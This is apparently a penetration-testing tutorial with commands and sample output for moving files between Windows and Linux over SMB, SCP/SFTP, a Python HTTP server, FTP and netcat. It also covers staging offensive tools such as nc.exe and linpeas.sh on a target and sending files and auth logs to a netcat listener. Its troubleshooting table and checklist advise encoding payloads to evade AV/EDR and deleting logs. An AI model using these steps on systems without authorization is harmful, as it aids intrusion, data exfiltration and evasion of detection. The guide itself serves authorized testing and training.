







## Introduction

Transferring files between Windows and Linux is a fundamental skill for system administrators, developers, and penetration testers. Whether you're moving logs, deploying payloads, syncing configurations, or exfiltrating data in authorized engagements, choosing the right method depends on:
- Network restrictions & firewall rules
- Authentication requirements
- Encryption needs
- Speed & reliability
- OPSEC/stealth requirements

This guide covers **5 proven methods** for bidirectional file transfer, complete with setup steps, exact commands, realistic outputs, and visual flow diagrams.

> {: .prompt-tip }
> **OSCP/Red Team Note:** In exam labs and authorized engagements, you'll often need to transfer tools, scripts, or dumps between attacker (Linux) and target (Windows) machines. Master at least 3 of these methods. Always verify file integrity after transfer.

---

## Architecture Overview



---

## Method 1: SMB/CIFS (Windows Native ↔ Linux)

SMB (Server Message Block) is Windows' native file sharing protocol. Linux accesses it via `smbclient` or `cifs-utils`.

### Flow Diagram


### Prerequisites
- **Windows:** Enable file sharing, create shared folder, set NTFS & Share permissions
- **Linux:** Install `smbclient`: `sudo apt install smbclient`

### Step-by-Step: Upload (Linux → Windows)
```bash
smbclient //192.168.1.100/Tools -U admin
```
**Output:**
```text
Enter WORKGROUP\admin's password: 
Try "help" to get a list of possible commands.
smb: \> put linpeas.sh
putting file linpeas.sh as \linpeas.sh (245.6 kb/s) (average 245.6 kb/s)
smb: \> quit
```

### Step-by-Step: Download (Windows → Linux)
```bash
smbclient //192.168.1.100/Logs -U admin -c "mget *.evtx; quit"
```
**Output:**
```text
Enter WORKGROUP\admin's password: 
getting file \System.evtx as System.evtx (1024.0 kb/s) (average 1024.0 kb/s)
getting file \Security.evtx as Security.evtx (876.3 kb/s) (average 876.3 kb/s)
```

> {: .prompt-tip }
> For persistent mounts, use `sudo mount -t cifs //192.168.1.100/Share /mnt/win -o username=admin,password=Pass123,uid=1000,gid=1000`

---

## Method 2: SCP/SFTP (SSH-Based)

Secure Copy Protocol runs over SSH. Windows 10/11 and Server 2019+ include OpenSSH client/server (may require enabling).

### Flow Diagram


### Prerequisites
- **Windows:** Enable OpenSSH Server:
  ```powershell
  Add-WindowsCapability -Online -Name OpenSSH.Server~~~~0.0.1.0
  Start-Service sshd
  Set-Service -Name sshd -StartupType 'Automatic'
  New-NetFirewallRule -Name sshd -DisplayName 'OpenSSH Server' -Enabled True -Direction Inbound -Protocol TCP -Action Allow -LocalPort 22
  ```
- **Linux:** `scp` and `sftp` are preinstalled.

### Step-by-Step: Upload (Linux → Windows)
```bash
scp /home/kali/exploit.py admin@192.168.1.100:C:\Users\admin\Downloads\
```
**Output:**
```text
admin@192.168.1.100's password: 
exploit.py                                  100% 4096   2.1MB/s   00:00
```

### Step-by-Step: Download (Windows → Linux)
```bash
scp admin@192.168.1.100:"C:\Windows\Temp\dump.bin" /tmp/
```
**Output:**
```text
admin@192.168.1.100's password: 
dump.bin                                    100%  15MB  12.4MB/s   00:01
```

### Interactive SFTP Session
```bash
sftp admin@192.168.1.100
```
**Output:**
```text
admin@192.168.1.100's password: 
Connected to 192.168.1.100.
sftp> cd C:/Users/admin/Documents
sftp> put report.pdf
Uploading report.pdf to /C:/Users/admin/Documents/report.pdf
report.pdf                                  100%  256KB  1.8MB/s   00:00
sftp> get config.xml
Fetching /C:/Users/admin/Documents/config.xml to config.xml
config.xml                                  100%  12KB  856.2KB/s 00:00
sftp> exit
```

> {: .prompt-tip }
> Use key-based authentication for automation: `ssh-keygen`, then `ssh-copy-id admin@192.168.1.100` (Linux) or manually append to `C:\Users\admin\.ssh\authorized_keys` (Windows).

---

## Method 3: Python HTTP Server (Quick Ad-Hoc)

Python's built-in HTTP module creates an instant file server. Perfect for labs, quick transfers, or when SSH/SMB is blocked.

### Flow Diagram


### Step-by-Step: Linux Server → Windows Client (Download)
**Linux:**
```bash
cd /tmp/share
python3 -m http.server 8000
```
**Output:**
```text
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
192.168.1.100 - - [18/Feb/2024 14:22:10] "GET /nc.exe HTTP/1.1" 200 -
192.168.1.100 - - [18/Feb/2024 14:22:15] "GET /linpeas.sh HTTP/1.1" 200 -
```

**Windows (PowerShell):**
```powershell
Invoke-WebRequest -Uri http://192.168.1.50:8000/nc.exe -OutFile C:\temp\nc.exe
Invoke-WebRequest -Uri http://192.168.1.50:8000/linpeas.sh -OutFile C:\temp\linpeas.sh
```
**Output:**
```text
StatusCode        : 200
StatusDescription : OK
Content           : {77, 90, 144, 0...}
RawContent        : HTTP/1.0 200 OK...
Headers           : {[Server, SimpleHTTP/0.6 Python/3.10.12], [Date, Sun, 18 Feb 2024 14:22:10 GMT], [Content-type, application/octet-stream]}
```

### Step-by-Step: Windows Server → Linux Client (Upload/Download)
**Windows:**
```powershell
python -m http.server 8080
```
**Linux:**
```bash
wget http://192.168.1.100:8080/dump.sql
curl -O http://192.168.1.100:8080/config.bak
```
**Output:**
```text
--2024-02-18 14:30:05--  http://192.168.1.100:8080/dump.sql
Connecting to 192.168.1.100:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5242880 (5.0M) [application/octet-stream]
Saving to: 'dump.sql'

dump.sql          100%[===================>]   5.00M  11.2MB/s    in 0.4s

2024-02-18 14:30:06 (11.2 MB/s) - 'dump.sql' saved [5242880/5242880]
```

> {: .prompt-tip }
> Python HTTP is **unencrypted** and **read-only** by default. Use only in isolated labs. For uploads, consider `python3 -m uploadserver` (pip install uploadserver) or switch to SCP/SFTP.

---

## Method 4: FTP/FTPS (Legacy & Enterprise)

FTP remains widely used in enterprise environments. Linux can host via `vsftpd` or `pyftpdlib`. Windows uses native `ftp` or PowerShell.

### Flow Diagram


### Step-by-Step: Linux FTP Server → Windows Client
**Linux (Quick Server):**
```bash
pip3 install pyftpdlib
python3 -m pyftpdlib -p 2121 -w -d /tmp/ftp_share
```
**Output:**
```text
[I 2024-02-18 14:35:00] concurrency model: async
[I 2024-02-18 14:35:00] masquerade (NAT) address: None
[I 2024-02-18 14:35:00] passive ports: None
[I 2024-02-18 14:35:00] >>> starting FTP server on 0.0.0.0:2121, pid=4521 <<<
```

**Windows Client:**
```cmd
ftp 192.168.1.50 2121
```
**Output:**
```text
Connected to 192.168.1.50.
220 pyftpdlib 1.5.6 ready.
User (192.168.1.50:(none)): anonymous
331 Username ok, send password.
Password: 
230 Login successful.
ftp> binary
200 Type set to I.
ftp> put C:\temp\tool.exe
200 PORT command successful.
150 File status okay; about to open data connection.
226 Transfer complete.
ftp: 2048000 bytes sent in 0.12Seconds 16.89Kbytes/sec.
ftp> get config.ini
200 PORT command successful.
150 File status okay; about to open data connection.
226 Transfer complete.
ftp: 4096 bytes received in 0.01Seconds 341.33Kbytes/sec.
ftp> quit
221 Goodbye.
```

> {: .prompt-tip }
> FTP transmits credentials and data in **cleartext**. Use FTPS (`ftps://`) or SFTP in production. `pyftpdlib -w` enables anonymous write access—only use in controlled labs.

---

## Method 5: Netcat/Socat (Raw TCP Transfer)

Netcat creates raw TCP connections. Ideal for red team operations, air-gapped transfers, or when higher-level protocols are blocked.

### Flow Diagram


### Step-by-Step: Linux Receiver ← Windows Sender
**Linux (Listener):**
```bash
nc -lvp 4444 > received_payload.exe
```
**Output:**
```text
listening on [any] 4444 ...
connect to [192.168.1.50] from (UNKNOWN) [192.168.1.100] 49821
```

**Windows (Sender):**
```cmd
nc.exe 192.168.1.50 4444 < C:\temp\payload.exe
```
*(Note: Windows doesn't include `nc` by default. Use `ncat` from Nmap or PowerShell equivalent below)*

**PowerShell Equivalent (No external tools):**
```powershell
$socket = New-Object System.Net.Sockets.TcpClient("192.168.1.50", 4444)
$stream = $socket.GetStream()
$bytes = [System.IO.File]::ReadAllBytes("C:\temp\payload.exe")
$stream.Write($bytes, 0, $bytes.Length)
$stream.Close()
$socket.Close()
```

### Step-by-Step: Windows Receiver ← Linux Sender
**Windows (Listener via PowerShell):**
```powershell
$listener = [System.Net.Sockets.TcpListener]4445
$listener.Start()
$client = $listener.AcceptTcpClient()
$stream = $client.GetStream()
$buffer = New-Object byte[] 1024
$fs = [System.IO.File]::Create("C:\temp\received.log")
while(($bytesRead = $stream.Read($buffer, 0, $buffer.Length)) -gt 0) {
    $fs.Write($buffer, 0, $bytesRead)
}
$fs.Close()
$client.Close()
$listener.Stop()
```

**Linux (Sender):**
```bash
nc 192.168.1.100 4445 < /var/log/auth.log
```
**Output:**
```text
(No output on sender side. Transfer completes silently.)
```

> {: .prompt-tip }
> Netcat transfers are **unencrypted** and **unauthenticated**. Easily detected by EDR/IDS. Use only for authorized red team exercises or isolated labs. Verify file hashes post-transfer: `certutil -hashfile file.exe SHA256` (Windows) / `sha256sum file.exe` (Linux).

---

## Comparison Matrix

| Method | Protocol | Encryption | Auth | Speed | Best Use Case | OPSEC Risk |
|--------|----------|------------|------|-------|---------------|------------|
| **SMB/CIFS** | TCP 445 | Optional (SMB3) | NTLM/Kerberos | High | Windows-native sharing, domain environments | Medium (logged, signatured) |
| **SCP/SFTP** | TCP 22 | AES-256 | SSH Keys/Password | High | Secure automation, remote management | Low (encrypted, standard) |
| **Python HTTP** | TCP 8000 | None | None | Medium | Quick labs, ad-hoc transfers | High (cleartext, no auth) |
| **FTP** | TCP 21 | None (FTPS: TLS) | Plain/SSL | Medium | Legacy systems, enterprise file servers | High (cleartext creds) |
| **Netcat** | TCP Any | None | None | High | Red team, raw transfers, firewall bypass | Very High (raw, detectable) |

---

## Security & OPSEC Considerations



### Critical Checks Before Transfer
1. **Verify Integrity:** Always compare SHA256/MD5 hashes after transfer
   ```bash
   # Linux
   sha256sum file.exe
   # Windows
   certutil -hashfile file.exe SHA256
   ```
2. **Check File Size:** Ensure byte count matches exactly
3. **Validate Execution:** Test in sandbox before running on target
4. **Clean Up:** Remove temporary servers, close ports, delete logs
5. **Network Scope:** Restrict to necessary IPs via firewall rules

---

## Troubleshooting Quick Reference

| Symptom | Likely Cause | Fix |
|---------|--------------|-----|
| `Connection refused` | Service not running / firewall blocking | `systemctl status sshd`, `Get-Service sshd`, check Windows Defender Firewall |
| `Permission denied` | NTFS/Share permissions mismatch | Grant `Full Control` to user, check `secur32.dll` auth |
| `Transfer hangs` | MTU mismatch / packet loss | Reduce MTU, use `scp -C` (compression), switch to SFTP |
| `Binary corruption` | ASCII mode used for binary | Force binary: `ftp> binary`, `scp` handles automatically |
| `AV/EDR blocks transfer` | Signature detection | Encode payload, use legitimate binaries, switch protocol |

---

## References

- [Microsoft — OpenSSH for Windows](https://learn.microsoft.com/en-us/windows-server/administration/openssh/openssh_install_firstuse)
- [Samba — SMB/CIFS Documentation](https://www.samba.org/samba/docs/)
- [Python — http.server Module](https://docs.python.org/3/library/http.server.html)
- [Ncat — Nmap's Netcat Replacement](https://nmap.org/ncat/)
- [RFC 959 — File Transfer Protocol (FTP)](https://datatracker.ietf.org/doc/html/rfc959)
- [RFC 4253 — SSH Transport Layer Protocol](https://datatracker.ietf.org/doc/html/rfc4253)
- [HackTricks — File Transfer Techniques](https://book.hacktricks.xyz)
- [PayloadsAllTheThings — File Transfer](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Methodology%20and%20Resources/Transfer%20Files)

---

*Last updated: February 18, 2024*
*Author: Security Engineer & OSCP Instructor*
*License: MIT*

> {: .prompt-warning }
> **Legal & Ethical Notice:** File transfer techniques must only be used in authorized environments, isolated labs, or during sanctioned penetration tests. Unauthorized data exfiltration or tool deployment violates computer fraud laws globally. Always obtain written permission and maintain audit trails.
